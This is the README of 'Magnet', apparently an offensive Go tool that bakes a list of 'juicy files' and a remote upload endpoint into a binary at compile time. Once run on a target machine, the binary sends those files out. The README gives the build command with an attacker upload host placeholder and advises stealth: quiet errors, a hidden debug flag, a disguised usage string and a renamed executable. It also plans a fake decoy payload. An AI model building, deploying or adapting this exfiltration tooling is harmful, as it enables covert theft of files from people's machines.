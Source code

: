 # Magnet

<div align=center>
  <pre>🧲⚡
  <strong>Grab interesting files from remote</strong><br>
  All the jobs is done at compilation time</pre>
</div>



## Usage

**At compilation time** you need to specify:
* ***The remote endpoint***, where your will upload juicy files
* ***The Juicy files***, list of files you want to grab. (File are separated by a comma `,`)
* ***The target os***, to to fit the target (between: `windows`, `darwin`, `linux`

So the compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files.txt)
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X main.FileList=$FILES -X main.Endpoint=$ENDPOINT" magnet.go
```

Then on target machine:

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

Include a fake payload that will also be run to fake an attacking scenario (example update, etc)
